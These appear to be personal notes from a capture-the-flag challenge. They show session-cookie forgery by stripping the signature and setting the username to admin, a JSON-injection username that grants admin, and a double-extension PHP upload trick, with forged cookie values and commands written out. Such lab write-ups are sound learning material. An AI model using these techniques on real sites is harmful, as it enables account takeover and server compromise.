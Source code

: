 # Tips
hardcoded creds

# Fucking with cookies
when I create user: derwent, pass: opensesami, cookie on localhost is:
```
eyJhbGciOiJIUzI1NiIsImlhdCI6MTQ5ODY5NzM2NX0.eyJ1c2VybmFtZSI6ImRlcndlbnQiLH0%3D.0ca7898c6bab1bdbbd248050190d17b5194d96bf1747c67691f047123fe9abdc
```
translates to:
```
  > echo eyJhbGciOiJIUzI1NiIsImlhdCI6MTQ5ODY5NjcyMn0 | base64 -D
  {"alg":"HS256","iat":1498696722}
  > echo eyJ1c2VybmFtZSI6ImRlcndlbnQiLH0= | base64 -D
  {"username":"derwent",}
  <signature>
```
delete signature and set username to admin:
```
  > echo '{"username":"admin"}' | base64
  eyJ1c2VybmFtZSI6ImFkbWluIn0K
  # set cookie to: eyJhbGciOiJIUzI1NiIsImlhdCI6MTQ5ODY5NzM2NX0.eyJ1c2VybmFtZSI6ImFkbWluIn0K.
```
I don't think this works because missing ',' at the end
```
  > echo '{"username":"admin",}' | base64 | escape
  eyJ1c2VybmFtZSI6ImFkbWluIix9Cg%3D%3D
  # set cookie to: eyJhbGciOiJIUzI1NiIsImlhdCI6MTQ5ODY5NzM2NX0.eyJ1c2VybmFtZSI6ImFkbWluIix9Cg%3D%3D.
```

Works! :D

# Fucking with json
Let's assume the signature stuff works.
```
  > php -f ~/Documents/GitHub/sectalks-snippets/sectalks-melbourne-0x0f/json.php
  # set cookie to: eyJhbGciOiJIUzI1NiIsImlhdCI6MTQ5ODcwMDkwM30.eyJrZXkiOiJ1c2VybmFtZTpkZXJ3ZW50LHVzZXJuYW1lOmFkbWluLGJsYWg6IiwidmFsdWUiOiJkZXJ3ZW50Iix9.4e3d4d5718c5164a19a2fa65fde76e4cd10bd6bd1039c8205dc91f509b04e0c9
```

Wow I can't believe that works!

Also works if create user: "derwent,username:admin,blah:"


# files

upload php file with .pdf.php extension
